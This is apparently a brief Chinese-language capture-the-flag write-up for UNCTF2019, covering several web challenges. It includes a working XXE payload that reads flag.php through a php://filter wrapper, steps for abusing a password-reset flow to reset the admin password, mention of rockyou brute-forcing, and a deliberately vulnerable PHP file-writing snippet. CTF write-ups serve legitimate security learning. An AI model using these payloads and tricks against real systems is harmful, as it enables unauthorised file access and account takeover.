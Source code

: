 ```yaml
---
layout: page
title: "UNCTF2019复现"
date: 2019-11-12 01:01
---
```


## 给赵总征婚
rockyou字典爆破

## NSB Reset Password
删除cookie账号不存在，说明通过cookie来判断用户是否存在
先注册新账号，找回密码，通过验证，在另一个页面找回admin密码，此时当前用户为admin，在切回通过验证页面重置密码

## Do you like xml?

```
<!DOCTYPE a[ <!ENTITY xxe SYSTEM
"php://filter/read=convert.base64-encode/resource=flag.php">]>
<user><username>&xxe;</username><password>admin</password></user>
```

## simple_web
根据提示访问./robots.txt；打开自己的沙箱，查看源码

```php
<?php
$str = addslashes($_GET['content']);
$file = file_get_contents('content.php');
$file = preg_replace('|\$content=\'.*\';|', "\$content='$str';", $file);
file_put_contents('content.php', $file);
highlight_file(__FILE__);
?>
```
`addslashes`在预定义字符 单引号双引号反斜杠NULL前加反斜杠